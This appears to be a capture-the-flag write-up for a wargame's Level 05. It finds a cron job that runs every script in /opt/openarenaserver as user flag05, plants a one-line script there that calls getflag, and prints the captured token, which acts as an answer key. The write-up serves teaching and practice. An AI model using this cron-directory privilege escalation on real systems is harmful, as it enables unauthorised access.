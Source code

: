 ## Level 05

We are gretted by a notification that we received a new mail!

We look through the /var/mail folder and find a `level05` containing:

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

If we take a look at `/usr/sbin/openarenaserver`

We can find:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

It executes every script in `/opt/openarenaserver` and deletes it, we can create one and `getflag`:

```bash
echo "getflag > /tmp/done" > /opt/openarenaserver/test.sh
```

We can find the flag here:

```bash
cat /tmp/done
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Token

viuaaale9huek52boumoomioc